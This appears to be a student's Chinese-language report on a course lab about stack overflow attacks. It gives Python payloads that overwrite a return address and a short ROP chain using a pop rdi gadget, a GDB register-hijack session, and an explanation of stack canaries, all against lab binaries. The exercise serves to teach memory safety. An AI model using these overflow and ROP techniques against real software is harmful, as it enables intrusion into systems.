



# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

#### 分析
64位程序，`func(0x401232)`调用`strcpy`存在栈溢出，缓冲区到返回地址偏移**16字节**，目标跳转函数`func1`地址`0x401216`。

#### 解决方案(payload+Python代码)
```python
padding = b"A" * 16
func1_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + func1_addr
with open("ans1.txt", "wb") as f:
    f.write(payload)
```
payload内容：16个0x41字节 + 小端序的0x401216地址字节流。
## 问题1结果


### Problem 2:
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

#### 分析
64位程序，`func(0x401290)`栈溢出，缓冲区到返回地址偏移**16字节**；目标函数`func2(0x401216)`需传参`0x3F8`，64位通过`rdi`传参，有效传参gadget为`pop rdi;ret (0x4012c7)`。

#### 解决方案(payload+Python代码)
```python
padding = b"A" * 16
pop_rdi = b"\xc7\x12\x40\x00\x00\x00\x00\x00"
arg = b"\xf8\x03\x00\x00\x00\x00\x00\x00"
func2 = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + pop_rdi + arg + func2
with open("ans2.txt", "wb") as f:
    f.write(payload)
```
## 问题2结果


### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

- **分析**：
  1. 程序中`func`函数存在40字节大小的局部缓冲区，当输入数据超过40字节时，超出部分会覆盖函数的返回地址，触发栈溢出；
  2. 实验目标是劫持程序执行流，调用`func1`函数并向其传入参数`0x72（十进制114）`，而x86_64架构的函数传参规则为“第一个参数存入`%rdi`寄存器”；
  3. 程序内置`jmp_xs/mov_rax/call_rax`为陷阱函数，执行后会篡改寄存器或栈数据，导致程序跳转到非法地址触发段错误，需通过手动控制执行流规避。

- **解决方案**：
  1. GDB调试步骤：
     ```
     gdb
     # 1. 启动GDB并加载程序
     gdb ./problem3
     
     # 2. 在func函数的返回地址处下断点
     b *0x4013a7
     
     # 3. 运行程序并加载Payload文件
     run ans3.txt
     
     # 4. 配置核心寄存器（满足传参+执行流要求）
     set $rdi = 0x72  # 给func1传入参数0x72
     set $rip = 0x40121a  # 强制跳转到func1的有效执行地址
     
     # 5. 继续执行程序
     c
    ```
## 问题3结果


### Problem 4: 
- **分析**：体现canary的保护机制是什么
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片
函数执行入口处，通过mov %fs:0x28,%rax; mov %rax,-0x8(%rbp)指令，从 % fs:0x28 读取随机校验值存入栈帧的 - 0x8 (% rbp) 位置（缓冲区与返回地址之间）；函数返回前，通过mov -0x8(%rbp),%rax; xor %fs:0x28,%rax指令校验值是否篡改，一致则正常返回，不一致则调用__stack_chk_fail程序崩溃，彻底阻断栈溢出攻击，因此本程序只能通过逻辑输入通关。
分析 func 函数汇编可知需满足双判断条件，仅第三次交互式输入 - 1（0xffffffff）可达成，前两次输入无要求，输入后程序自动调用 func1 通关


## 思考与总结

实验聚焦 x86_64 架构内存安全，核心总结：
栈溢出本质：输入未校验→覆盖返回地址劫持执行流，偏移量计算是关键；
64 位 ROP 传参：需复用pop rdi; retgadget 完成寄存器传参；
环境与陷阱应对：GDB 可手动控制寄存器 / 执行流，突破 ASLR 与程序陷阱；
Canary 防护：栈中插入随机校验值，篡改即崩溃，阻断传统溢出。

## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
